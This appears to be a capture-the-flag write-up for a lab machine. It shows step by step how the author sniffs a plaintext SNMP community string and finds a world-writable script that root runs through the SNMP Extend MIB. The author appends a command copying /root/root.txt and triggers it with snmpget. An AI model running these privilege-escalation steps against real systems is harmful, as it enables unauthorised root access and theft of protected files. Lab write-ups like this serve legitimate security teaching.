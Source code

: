 # Keep it simple

Connect to the machine 10.10.X.X using SSH an log in.

First off lets see if there is anything interesting in the home directory;

    [monitor@simple ~]$ ls
    todo.txt

Better read this todo file;

    [monitor@simple ~]$ cat todo.txt
    The simple service should be running already!

    To do list:

    1 - Check the disk monitoring is working e.g

    'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk"'
    
    2 - Also confirm with Dev team if they want camel, snake or kebab case this week (lol) and standardise the OID formats!


Ok so seems like some network monitoring development is underway on this host and a service called 'simple' is up and running.

Lets look into that service first;

    [monitor@simple ~]$ systemctl | grep simple
    simple.service                                                                           loaded active running   simple.ser                                       vice

    [monitor@simple ~]$ systemctl status simple.service
    ● simple.service
       Loaded: loaded (/etc/systemd/system/simple.service; enabled; vendor preset: disabled)
       Active: active (running) since Fri 2023-12-01 12:09:00 GMT; 13min ago
     Main PID: 646 (simple.server.s)
       CGroup: /system.slice/simple.service
               ├─ 646 /bin/bash /usr/local/bin/simple.server.sh
               └─1828 sleep 5

So, a script is being run but we have no idea what that is doing;

    [monitor@simple ~]$ cat /usr/local/bin/simple.server.sh
    cat: /usr/local/bin/simple.server.sh: Permission denied


Next lets look at the two tasks in the "to do" list

Looking at the hint in todo list task 1 we can also see that SNMP is being used and in particular the Extend MIB which "defines a framework for scripted extensions for the Net-SNMP agent" (quote from http://www.net-snmp.org/docs/mibs/)

Time to research the SNMP Extend MIB and find out what it's all about.  Here is a great primer from RedHat;

https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/deployment_guide/sect-system_monitoring_tools-net-snmp-extending

We have now learned that as well as reporting on the usual system and networking metrics SNMP can also be extentded to run custom scripts!

Looking at todo list task 2 we can get the idea that script names used here have not been standardised.  Don't know what that means but we can keep this in mind for later.

As we now know from todo list task 1 & our own research SNMP is our prime interest.  

Let's see if an SNMP server is running on our host;

    [monitor@simple ~]$ ss -tunnelp
    Netid  State      Recv-Q Send-Q                                 Local Address:Port                                                Peer Address:Port
    udp    UNCONN     0      0                                                  *:68                                                             *:*                   ino:17694 sk:ffff8f6d7a381980 <->
    udp    UNCONN     0      0                                          127.0.0.1:161                                                            *:*                   ino:18752 sk:ffff8f6d7a381dc0 <->
    udp    UNCONN     0      0                                          127.0.0.1:323                                                            *:*                   ino:15366 sk:ffff8f6d7a380cc0 <->
    udp    UNCONN     0      0                                              [::1]:323                                                         [::]:*                   ino:15367 sk:ffff8f6d779fc000 v6only:1 <->
    tcp    LISTEN     0      128                                                *:22                                                             *:*                   ino:18595 sk:ffff8f6d77b8c000 <->
    tcp    LISTEN     0      128                                        127.0.0.1:199                                                            *:*                   ino:18753 sk:ffff8f6d77b8c7c0 <->
    tcp    LISTEN     0      128                                             [::]:22                                                          [::]:*                   ino:18604 sk:ffff8f6d77b90000 v6only:1 <->

Yep!  We can also see that SNMP is running as root - oops :-D

    [monitor@simple ~]$ ps -ef | grep snmp
    root      1024     1  0 12:09 ?        00:00:01 /usr/sbin/snmpd -LS0-6d -f

Can't read the SNMP conf file :-(

    [monitor@simple ~]$ cat /etc/snmp/snmpd.conf
    cat: /etc/snmp/snmpd.conf: Permission denied


Lets see if we can see any SNMP traffic hitting our host - time to fire up tcpdump! We can use "-i any" switch to pick up traffic from all available interfaces;

    [monitor@simple ~]$ tcpdump -nn udp and port 161 -i any 
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    12:29:57.498885 IP 127.0.0.1.43754 > 127.0.0.1.161:  C="******" GetRequest(28)  .1.3.6.1.2.1.1.5.0
    12:29:57.503196 IP 127.0.0.1.161 > 127.0.0.1.43754:  C="******" GetResponse(34)  .1.3.6.1.2.1.1.5.0="simple"
    12:30:02.524673 IP 127.0.0.1.56841 > 127.0.0.1.161:  C="******" GetRequest(28)  .1.3.6.1.2.1.1.5.0
    3 packets captured
    6 packets received by filter
    0 packets dropped by kernel

Jackpot!  We can see SNMP traffic on the loopback interface and whats more an older version (i.e. 1 or 2c) is being used to we can see the SNMP data - including the community
in plain text!

So let's recap what we now know;

* SNMP server is running as root on the loopback interface
* The SNMP community is "******"
* Some dev work is ongoing using the SNMP Extend MIB - which we now know from research can run shell scripts or other external programs
* The todo file tells us a script called checkDisk is under development

Let's try and run checkDisk!

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkDisk" = STRING: 42%

Seems easy enough, lets find that script!

Lets start looking for file called something like "checkDisk"

    [monitor@simple ~]$ find / -type f -name checkDisk* 2>/dev/null
    [monitor@simple ~]$

Nothing!

Task 2 mentions some inconstency in file naming so let's be less specific;

    find / -type f -name check* 2>/dev/null" 

The /usr/local/bin/monitoring/ folder looks right.  

Time for a closer look;

    [monitor@simple ~]$ ls -al /usr/local/bin/monitoring/
    total 20
    drwxr-xr-x. 2 root root 116 Sep  6 12:44 .
    drwxr-xr-x. 3 root root  48 Dec  1 10:04 ..
    -rw-r--r--. 1 root root  11 Sep  6 08:24 check_disk.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:39 check_interface.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:40 check_mem.sh
    -rw-r--rw-. 1 root root  12 Sep  6 12:44 check_temp.sh
    -rw-r--r--. 1 root root   8 Sep  6 08:39 check_users.sh

Interesting - one of these files we can edit!!!  I wonder if we can run check_temp.sh from SNMP (as root!) and spawn a shell or run commands?

Lets try running it first in the same fashion as checkDisk;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkTemp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."checkTemp" = No Such Instance currently exists at this OID

No dice!  

Recall from task 2 in the todo file that there was some inconsistency in OID formats and 3 formats mentioned;

1. camelCase   <------ worked Ok for check_disk.sh but not for check_temp.sh
2. snake_case
3. kebab-case

Let's try snake case;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check_temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check_temp" = No Such Instance currently exists at this OID

Thats not it. Let's try kebab case;

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp"'
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp" = STRING: 37.5

Great! 

We have found a way to run check_temp.sh so let's use it to grab the root flag!

    [monitor@simple ~]$ echo "cp /root/root.txt /tmp/flag" >> /usr/local/bin/monitoring/check_temp.sh

    [monitor@simple ~]$ snmpget -v 2c -c ****** 127.0.0.1 'NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp"' && cat /tmp/flag
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."check-temp" = STRING: 37.5
    ******************


Thanks for reading!
